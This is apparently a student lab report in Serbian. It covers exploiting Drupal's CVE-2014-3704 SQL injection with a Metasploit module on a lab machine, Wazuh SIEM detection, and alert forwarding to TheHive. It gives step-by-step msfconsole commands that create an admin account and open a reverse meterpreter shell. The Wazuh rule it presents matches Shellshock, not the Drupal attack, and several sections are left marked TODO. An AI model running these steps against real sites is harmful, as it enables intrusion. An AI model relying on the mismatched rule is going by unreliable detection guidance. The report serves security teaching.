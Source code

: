 # Eksploatacija ranjivosti, detekcija, i Incident Response izveštaj

### Име и презиме: Христина Адамовић R2 20/2024
### Датум: 1.12.2024. - 8.12.2024.

---

## Преглед рањивости

### 1.1 Информације о рањивости

- ID рањивости (CVE): CVE-2014-3704 
- Погођен сервис: Drupal Core
- CVSS оцена: 7.5 (висока)
- Опис рањивости: Друпал верзије 7.x (прије 7.32) погођен је рањивошћу SQL инјекције. Функција `expandArguments` у API-ју за апстракцију базе података 
не конструише исправно припремљене изразе, јер не провјерава податке добијене од корисника. To омогућава удаљеним нападачима да изведу нападе SQL инјекције путем низа који садржи специјално креиране кључеве. Рањивост је позната и под називом `Drupageddon`.

### 1.2 Опис експлоита

**Извор експлоита:**

Назив експлоита: Drupal HTTP Parameter Key/Value SQL Injection

Линк до експлоита: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/drupal_drupageddon.rb

**Метод експлоатације:**

Постоје два метода екслоатације који се односе на начин на који ће PHP payload бити активиран. Кориштен је други метод који се заснива на креирању корисникове објаве.
Упућује се post захтјев ка друпаловој логин страници, што ће креирати новог корисника у табели корисника. Након тога се додатом кориснику додјељује администраторска улога. Администраторима се даје право да уметну PHP код у своје објаве. Новокреирани администратор креира нову објаву која садржи payload, те приказивањем те објаве ће се активирати извршење payload-а. Одабрани payload омогућава remote shell (метапретер сесију) на рањивој машини.

---

## Процес експлоатације

### 2.1 Подешавање експлоита

**Рањив циљ:**

- Metasploitable 3 Ubuntu
- Drupal Core 7.x (прије 7.32)
- Apache 2.4.7 који ради на порту 80

**Алати за експлоатацију:**

Metasploit Framework

### 2.2 Кораци експлоатације

1. Покрећемо Metasploit Framework: `msfconsole.bat`
2. Тражимо експлоит за Друпал: `search Drupal`
3. Од понуђених, бирамо онај са индексом 18, командом `use 18`, јер он представља претходно описани метод. Аутоматски се одабере стандардни payload `php/meterpreter/reverse_tcp` који врши креирање метапретер сесије 
4. Подесимо адресу рањиве машине: `set RHOST 192.168.0.102`
5. Подесимо локацију ресурса који се напада (URI): `set TARGETURI /drupal/`
6. Покренемо експлоит `exploit`

![img](metasploit1.png)

![img](metasploit2.png)

### 2.3 Резултат експлоатације

Креиран је нови корисник са приказаним креденцијалима који има администраторску улогу. 
Отворена је метапретер сесија.

![img](metasploit3.jpg)

## Детекција коришћењем Wazuh SIEM-а

### 3.1 Wazuh SIEM правила ТОДО

**Правила кориштена за детекцију:**

У `/var/ossec/etc/rules/local_rules.xml` је додато сљедеће правило:

```xml
<group name="shellshockgroup">
    <rule id="100002" level="10">
        <description>Shellshock attack</description>
        <field>.*\(\)\s*{\s*:;.*|.*bin/bash.*</field>
        <options>no_full_log</options>
        <mitre>
            <id>T1203</id>
        </mitre>
    </rule>
</group>
```

- ID je `100002` а Mitre ID je T1203
- Level је `10`
- Опис правила: Тражи се регекс за `() { :; };`. Ако је он игде пронађен, покренуће се alert за задато правило. Не желимо да цео алерт иде у лог и зато је постављено `no_full_log`.

### 3.2 Конфигурација SIEM-а

**Подешавање Wazuh агента:**

Вазух менаджер, заједно са вазух индексером и дешбордом, инсталиран је преко асистента из званичне документације идућом командом:
```sh
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh && sudo bash ./wazuh-install.sh -a
```
У оквиру вазух дешборда кликом на дугме `Deploy new agent` прикажу нам се команде које је потребно унијети за инсталацију агента на рањивој машини (oдабрана је опција DEB amd64):

```sh
wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.9.2-1_amd64.deb && sudo WAZUH_MANAGER='172.21.34.178' WAZUH_AGENT_NAME='Test2' dpkg -i ./wazuh-agent_4.9.2-1_amd64.deb
```

На крају покрећемо агента: 

```sh
sudo /var/ossec/bin/wazuh-control start
```

**Прикупљање логова:**

Логови се налазе у `/var/log/apache2/access.log`. У конфигурационом фајлу `ossec.conf` се поставља путања до тих логова, уколико она већ није ту.

```xml
<localfile>
  <location>/var/log/apache2<FILE_PATH>/access.log</location>
  <log_format>syslog</log_format>
</localfile>
```

### 3.3 Процес детекције ТОДО

Када се уради покушај напада, у веб апликацији се испише лог. 

![img](./wazuh.png)

---

## Incident Reponse са The Hive-ом

### 4.1 Подешавање интеграције

**Опис интеграције:**

Праћен је туторијал са идућег линка: https://wazuh.com/blog/using-wazuh-and-thehive-for-threat-protection-and-incident-response/

Креиране су пајтон скрипта под називом `custom-w2thive` и истоимена беш скрипта за извршавање пајтон скрипте, обје на путањи `/var/ossec/integrations/`. Пајтон скрипта за сваки алерт из вазух *json* фајла, уколико је тај алерт изнад подешеног прага нивоа правила, креира пост захтјев којим шаље податке о насталом алерту ка Тhe Hive-у. 

Вазуху је потребно додијелити одговарајуће пермисије да би могао приступити наведеним фајловима:

```sh
sudo chmod 755 /var/ossec/integrations/custom-w2thive.py
sudo chmod 755 /var/ossec/integrations/custom-w2thive
sudo chown root:ossec /var/ossec/integrations/custom-w2thive.py
sudo chown root:ossec /var/ossec/integrations/custom-w2thive
```

Да би комуникација са Тhe Hive-ом била омогућена, у конфигурациони фајл вазуха мора се додати секција за интеграцију са The Hive-ом:

![img](./integration.png)

Након измјене конфигурационог фајла, потребно је рестартовати вазух менаджер:

```sh
sudo systemctl restart wazuh-manager
```

**Интеграција правила:**

Правило приказано у одјељку 3.1 креираће алерт у оквиру вазуха ако детектује напад, након чега се извршава беш скрипта `custom-w2thive` која прослијеђује параметре пајтон скрипти да би користила податке из алерта и послала их Тhe Hive-у.

![img](./thehive1.jpg)

### 4.2 Креирање случаја у The Hive-у ТОДО слике

**Детаљи о случају:**

![img](./thehive2.jpg)